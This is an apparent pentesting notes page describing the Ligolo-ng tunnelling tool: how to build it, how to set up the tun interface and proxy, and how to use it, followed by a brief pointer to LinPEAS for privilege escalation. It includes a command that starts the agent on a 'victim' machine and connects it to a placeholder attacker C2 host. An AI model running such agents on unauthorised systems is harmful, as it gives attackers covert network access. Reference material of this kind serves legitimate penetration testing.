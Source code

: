 🔙ligolo-ng
Ligolo-ng is a simple, lightweight and fast tool that allows pentesters to establish tunnels from a reverse TCP/TLS connection using a tun interface (without the need of SOCKS).

Instead of using a SOCKS proxy or TCP/UDP forwarders, Ligolo-ng creates a userland network stack using Gvisor.

When running the relay/proxy server, a tun interface is used, packets sent to this interface are translated, and then transmitted to the agent remote network.

Install: (Download)

Precompiled binaries (Windows/Linux/macOS) are available on the Release page.

Install: (Build)

Building ligolo-ng (Go >= 1.17 is required):

go build -o agent cmd/agent/main.go
go build -o proxy cmd/proxy/main.go

# Build for Windows
GOOS=windows go build -o agent.exe cmd/agent/main.go
GOOS=windows go build -o proxy.exe cmd/proxy/main.go
Setup: (Linux)

sudo ip tuntap add user [your_username] mode tun ligolo
sudo ip link set ligolo up
Setup: (Windows)

You need to download the Wintun driver (used by WireGuard) and place the wintun.dll in the same folder as Ligolo (make sure you use the right architecture).

Setup: (Proxy server)

./proxy -h # Help options
./proxy -autocert # Automatically request LetsEncrypt certificates
Usage:

Start the agent on your target (victim) computer (no privileges are required!):

./agent -connect attacker_c2_server.com:11601
A session should appear on the proxy server.

INFO[0102] Agent joined. name=nchatelain@nworkstation remote="XX.XX.XX.XX:38000"
Use the session command to select the agent.

ligolo-ng » session 
? Specify a session : 1 - nchatelain@nworkstation - XX.XX.XX.XX:38000
Full usage information can be found here.

image

Image used from https://github.com/nicocha30/ligolo-ng#demo

Privilege Escalation
🔙LinPEAS
LinPEAS is a nice verbose privilege escalation for finding local privesc routes on Linux endpoints.
